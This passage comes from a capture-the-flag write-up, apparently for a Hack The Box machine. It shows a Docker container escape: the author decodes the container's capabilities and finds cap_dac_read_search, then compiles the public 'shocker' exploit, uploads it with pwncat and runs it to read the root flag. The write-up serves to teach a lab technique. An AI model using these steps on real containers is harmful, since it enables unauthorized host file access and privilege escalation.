 ```
```
┌──(kali㉿kali)-[~]
└─$ capsh --decode=00000000a80425fd                                                                                                                     1 ⨯
0x00000000a80425fd=cap_chown,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
```

Again, I've went trough the list of capabilties top to bottom and checked if any of those capabilties is helpful in a Docker Breakout.
Second capabiltiy was a hit: ```cap_dac_read_search```

Hacktricks links this technique to a Docker Breackout exploit named ```shocker```

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search

Compiled the binary from Hacktricks:
```
┌──(kali㉿kali)-[~/htb/talkative/serve]
└─$ gcc shocker.c -o shocker
shocker.c: In function ‘find_handle’:
shocker.c:63:15: warning: implicit declaration of function ‘open_by_handle_at’ [-Wimplicit-function-declaration]
   63 |     if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
      |               ^~~~~~~~~~~~~~~~~
                                                                                              
```
Uploaded compiled shocker with pwncat:
```
(local) pwncat$ upload /home/kali/htb/talkative/serve/shocker /tmp/shocker
/tmp/shocker ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 17.3/17.3 KB • ? • 0:00:00
[00:10:02] uploaded 17.26KiB in 0.43 seconds 
```

#### Root FLag
```
(remote) root@c150397ccd63:/tmp# ./shocker /root/root.txt root
[***] docker VMM-container breakout Po(C) 2014 [***]
[***] The tea from the 90's kicks your sekurity again. [***]
[***] If you have pending sec consulting, I'll happily [***]
[***] forward to my friends who drink secury-tea too! [***]

<enter>
c^H
[*] Resolving 'root/root.txt'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
[*] Found media
[*] Found proc
[*] Found etc
[*] Found lib
[*] Found libx32